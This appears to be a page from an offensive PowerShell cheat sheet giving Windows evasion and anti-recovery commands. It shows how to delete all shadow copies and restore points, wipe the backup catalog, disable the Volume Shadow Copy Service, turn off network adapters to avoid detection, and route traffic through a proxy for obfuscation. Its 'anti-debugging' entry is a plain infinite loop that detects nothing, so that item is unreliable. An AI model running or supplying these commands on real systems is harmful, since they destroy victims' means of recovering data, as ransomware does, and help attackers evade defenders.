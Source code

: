**Anti-Debugging with Infinite Loop**&#x20;

* Create an infinite loop to detect debugging:

```powershell
while ($true) { Write-Output "Running"; Start-Sleep -Milliseconds 100 }
```

## Disabling and Manipulating System Recovery Options&#x20;

**Disable System Restore**&#x20;

* Disable system restore points:

```powershell
Disable-ComputerRestore -Drive "C:\"
```

* Delete all restore points:

```powershell
vssadmin delete shadows /all /quiet
```

**Tampering with Backup and Recovery Settings**&#x20;

* Delete backup catalog to prevent recovery:

```powershell
wbadmin delete catalog -quiet
```

* Disable Volume Shadow Copy Service (VSS):

```powershell
Stop-Service -Name "VSS" -Force Set-Service -Name "VSS" -StartupType Disabled
```

## Network Evasion Techniques&#x20;

**Disabling Network Adapters Temporarily**&#x20;

* Disable a network adapter to avoid detection:

```powershell
Disable-NetAdapter -Name "Ethernet0" -Confirm:$false
```

* Re-enable the network adapter:

```powershell
Enable-NetAdapter -Name "Ethernet0" -Confirm:$false
```

**Using Proxy for Obfuscation**&#x20;

* Set a system-wide proxy for obfuscation:

```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "http=proxy.example.com:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
```
